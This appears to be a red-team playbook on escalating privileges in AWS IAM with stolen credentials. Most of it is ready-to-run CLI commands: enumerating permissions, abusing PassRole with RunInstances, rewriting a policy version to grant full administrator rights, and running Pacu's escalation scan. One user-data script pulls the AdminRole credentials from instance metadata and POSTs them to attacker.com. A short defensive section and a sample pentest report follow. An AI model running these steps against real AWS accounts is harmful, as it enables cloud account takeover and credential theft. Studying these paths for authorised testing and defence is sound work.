

# AWS IAM Privilege Escalation

## When to Use
- When you have obtained valid AWS credentials (Access Key ID and Secret Access Key), an STS temporary token, or compromised an EC2 instance metadata service (IMDS).
- To assess the blast radius of a compromised cloud identity.
- When performing a white-box cloud architecture review or executing a Red Team operation in an AWS environment.

## Workflow

### Phase 1: Authentication & Enumeration

```bash
# Concept: Before escalating, you must understand exactly who you are and what permissions you possess.

# 1. Configure the compromised credentials
export AWS_ACCESS_KEY_ID="AKIA..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..." # If using STS/IMDS

# 2. Identify Current Identity
aws sts get-caller-identity
# Output:
# {
#     "UserId": "AIDAXXXXXXXXXXXXXXX",
#     "Account": "123456789012",
#     "Arn": "arn:aws:iam::123456789012:user/dev-bob"
# }

# 3. Enumerate Attached Policies (If permitted)
aws iam list-attached-user-policies --user-name dev-bob
aws iam list-user-policies --user-name dev-bob

# Note: If `iam:List*` is denied, you must use brute-forcing (e.g., Pacu or Enumerate-IAM) to guess what you can do.
```

### Phase 2: Exploiting `iam:PassRole` and `ec2:RunInstances`

```bash
# Concept: If a user can pass a role to an EC2 instance AND spin up that instance, 
# they can assign an Administrator role to a new machine and log into it.

# Prerequisite: You discovered the `arn:aws:iam::123456789012:role/AdminRole` exists.

# 1. Create a Startup Script (User Data) to send the Admin credentials to your listener
cat <<EOF > script.sh
#!/bin/bash
curl http://attacker.com/log -X POST -d "\$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/AdminRole)"
EOF

# 2. Launch the EC2 instance, passing the Admin Role
aws ec2 run-instances \
    --image-id ami-0abcdef1234567890 \
    --instance-type t2.micro \
    --iam-instance-profile Name="AdminRole" \
    --user-data file://script.sh

# 3. Execution:
# The instance boots, assumes the AdminRole via IMDS, and POSTs the temporary, fully-privileged 
# Admin STS tokens directly to your attacker server.
```

### Phase 3: Exploiting `iam:CreatePolicyVersion`

```bash
# Concept: AWS allows 5 versions of a managed policy. If you have permission to update your OWN policy, 
# you can grant yourself AdministratorAccess.

# 1. Discover you have a policy named `DevAccessPolicy` attached.
aws iam get-policy-version --policy-arn arn:aws:iam::123456789012:policy/DevAccessPolicy --version-id v1

# 2. Create the malicious policy document locally
cat <<EOF > admin.json
{
    "Version": "2012-10-17",
    "Statement": [{ "Effect": "Allow", "Action": "*", "Resource": "*" }]
}
EOF

# 3. Push a new version of the policy and set it as the active default
aws iam create-policy-version \
    --policy-arn arn:aws:iam::123456789012:policy/DevAccessPolicy \
    --policy-document file://admin.json \
    --set-as-default

# You are now a full AWS Administrator.
```

### Phase 4: Automation with Pacu

```bash
# Concept: Manual AWS exploitation is tedious. Use the Pacu exploitation framework by Rhino Security Labs.

# 1. Start Pacu and configure the session
pacu
Pacu > set_keys

# 2. Enumerate Permissions automatically
Pacu > run iam__enum_permissions

# 3. Automatically scan for and execute Privilege Escalation vectors
Pacu > run iam__privesc_scan

# Pacu will test 21 known AWS IAM escalation paths (e.g., `UpdateAssumeRolePolicy`, 
# `AttachUserPolicy`, `CreateAccessKey`, `PassRole` to Lambda, etc.) and attempt to gain Admin automatically.
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Principle of Least Privilege**: Never attach the `AdministratorAccess` managed policy or use `Action: "*"` unless absolutely necessary. Granularly define exactly which API actions a user or role requires.
- **Permissions Boundaries**: Utilize AWS IAM Permissions Boundaries to set the maximum allowed permissions an identity can have. Even if an attacker finds an `iam:CreatePolicyVersion` flaw, the Boundary prevents them from escalating beyond the defined sandbox.
- **CloudTrail Monitoring**: Actively monitor AWS CloudTrail logs for highly sensitive API calls originating from anomalous IPs or failing continuously (indicative of PACU mapping attempts). Alert immediately on `iam:PassRole`, `iam:CreateUser`, `iam:UpdateAssumeRolePolicy`, and `sts:AssumeRole` chaining.
- **IMDSv2 Enforcement**: Force all EC2 instances to use Instance Metadata Service Version 2 (IMDSv2). It requires a session token obtained via HTTP PUT request, effectively mitigating most simple SSRF vulnerabilities from accessing the attached IAM role credentials.

## Key Concepts
| Concept | Description |
|---------|-------------|
| IAM Role | An AWS identity with permission policies that determine what the identity can and cannot do in AWS. Unlike a User, a Role does not have long-term credentials and is meant to be assumable |
| `iam:PassRole` | A permission that allows a user or service to associate an IAM Role with a computational resource (like an EC2 instance or Lambda function) |
| IMDS | Instance Metadata Service; an API available inside an EC2 instance at `169.254.169.254` that provides data about the instance, including temporary STS credentials if a Role is attached |
| STS | Security Token Service; an AWS service that enables you to request temporary, limited-privilege credentials |

## Output Format
```
Penetration Test Report: AWS Privilege Escalation via EC2 PassRole
==================================================================
Vulnerability: IAM Privilege Escalation (T1078.004)
Severity: Critical (CVSS 9.8)
Target: AWS Account `123456789012:user/developer-tier-1`

Description:
During the assessment, an SSRF vulnerability in the public web application was exploited to extract the temporary STS credentials belonging to the `developer-tier-1` IAM role from the EC2 Instance Metadata Service (IMDS).

Analysis of the role's permissions revealed an insecure configuration allowing both the `iam:PassRole` action targeting wildcard resources (`*`) and the `ec2:RunInstances` action. This combination represents a severe Privilege Escalation path.

Reproduction Steps:
1. Extract the credentials using the SSRF payload targeting `http://169.254.169.254/latest/meta-data/iam/security-credentials/developer-tier-1`.
2. Configure the AWS CLI locally with the obtained Access Key, Secret Key, and Session Token.
3. Construct a maliciously encoded `user-data` bash script designed to retrieve metadata and exfiltrate it via POST request using `curl`.
4. Execute the following CLI command to launch a new instance acting as the `ProductionRDSAdmin` role:
   `aws ec2 run-instances --image-id ami-0abc... --instance-type t2.micro --iam-instance-profile Name="ProductionRDSAdmin" --user-data file://payload.sh`
5. The instance started and successfully delivered the Highly Privileged `ProductionRDSAdmin` STS credentials to the attacker-controlled server.

Impact:
Critical failure of cloud compartmentalization. Low-privileged web-app identity completely circumvented restrictions, escalating to an RDS Database Administrator capable of wiping or extracting the entire production database.
```

## References
- Rhino Security Labs: [AWS IAM Privilege Escalation paths](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- AWS Documentation: [Granting a user permissions to pass a role to an AWS service](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_passrole.html)
- GitHub (Pacu): [The AWS exploitation framework](https://github.com/RhinoSecurityLabs/pacu)
